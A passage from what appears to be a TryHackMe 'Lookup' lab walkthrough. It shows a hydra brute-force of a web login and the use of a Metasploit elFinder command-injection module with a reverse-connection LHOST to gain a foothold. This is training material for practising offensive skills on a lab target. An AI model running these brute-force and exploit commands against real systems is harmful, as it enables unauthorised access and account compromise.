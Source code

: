 ## 🦿 Foothold

### Credential Brute Force
```sh
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again" -V
```
jose is vaild Credential to log in `http:/lookup.thm` 

```sh
[80][http-post-form] host: lookup.thm   login: jose   password: **********
```

> If I add flags or other arguments after the methode (http-form-port), hydra didn’t do anything. To work, I had to let the command line end with the method used.
{: .prompt-tip }

![](/images/TryHackMe/Lookup/elfinder.png)

## 💀 Exploiting elFinder

Visit `http://files.lookup.thm` — elFinder web interface is visible.

Add it to `/etc/hosts`:
```sh
10.10.158.59    lookup.thm    files.lookup.thm
```

Search for Exploits
```sh
searchsploit elFinder
```

Metasploit Exploit

> Web Login Required Before Exploiting,
> You must log in as user `jose` at `http://lookup.thm/` to access the `files.lookup.thm` file manager over Uploading payload.
{: .prompt-warning }


```sh
msfconsole -q
search elFinder
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set RHOSTS files.lookup.thm
set LHOST tun0
run
```
